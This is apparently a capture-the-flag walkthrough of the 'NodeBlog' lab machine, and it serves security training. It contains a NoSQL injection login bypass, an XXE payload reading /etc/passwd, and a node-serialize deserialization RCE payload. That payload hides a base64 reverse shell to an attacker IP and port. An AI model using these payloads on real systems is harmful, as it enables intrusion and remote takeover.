 ```yaml
---
description: H
---
```


# NodeBlog

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.160
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-08 07:30 EST
Nmap scan report for 10.129.96.160
Host is up (0.013s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

### NoSQL Login Bypass

This was a UHC qualifier box in 2021.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

There was a login functionality there. I tested some SQL Injection but to no avail. Because this was a UHC box, this was probably the way in. I tested some NoSQL injection and it worked in bypassing it!

```http
POST /login HTTP/1.1
Host: 10.129.96.160:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 56
Origin: http://10.129.96.160:5000
Connection: close
Referer: http://10.129.96.160:5000/login
Upgrade-Insecure-Requests: 1

{
"user": "admin",
"password": {"$ne": "admin"}

}
```

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### XXE Injection

All of the functions do nothing much, except for the Upload one. When trying to upload something, I get this error:

```
Invalid XML Example: Example DescriptionExample Markdown
```

This indidates that we have to upload a malicious XML file to achieve XXE injection for our reverse shell. Taking a look at the POST request in Burpsuite reveals that we need this format:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

I headed to PayloadAllTheThings to try some XXE injection payloads, and it worked rather well:

```markup
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>mypost</title>
        <description>testfile</description>
        <markdown>&file;</markdown>
</post>
```

Then we can save this into a file and upload it. The output would be printed in the `markdown` area:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Earlier while testing my NoSQL injections, I did run across an error like this:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

So the source code files are in `/opt/blog`. A bit more testing revealed the main file to be `server.js`.

```javascript
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

First thing I notice is that **there is unserialisation going on**. This web application must be vulnerable to RCE through Deserialisation. This article showed up when I searched for this exploit:

{% embed url="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/" %}

I tested the token given there and it worked: (after URL encoding)

```
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27ping%20-c%201%2010.10.14.39%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

Now, we can replace the `ping` command I used above with a reverse shell:

```bash
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27echo%20%5C%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4zOS84ODg4IDA%2BJjEK%5C%22%20%7C%20base64%20-d%20%7C%20bash%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

This uses base64 to encode the shell one-liner and connect to port 8888.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

When trying to read the user flag, I found out that we did not have access to our own home directory. This was because of the permissions set:

```
admin@nodeblog:/home$ ls -la
ls -la
total 16
drwxr-xr-x 1 root  root   10 Dec 27  2021 .
drwxr-xr-x 1 root  root  180 Dec 27  2021 ..
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
```

We can correct this with `chmod 777 admin`.

## Privilege Escalation

I ran a LinPEAS scan on this machine and found the `mongoDB` credentials file.

```
mongodb      802  0.3  1.8 981772 76124 ?        Ssl  16:38   0:08 /usr/bin/mongod --unixSocketPrefix=/run/mongodb --config /etc/mongodb.conf
```

Earlier we used NoSQL injection to access this, and perhaps we can find the actual credentials for the `admin` user (so that I can check `sudo` privleges). Some DBs and collections can be found here.

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

I could find a password from the users collections.

{% code overflow="wrap" %}
```
>  db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
{% endcode %}

We can use this to check `sudo` privileges and find an easy root path:

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>
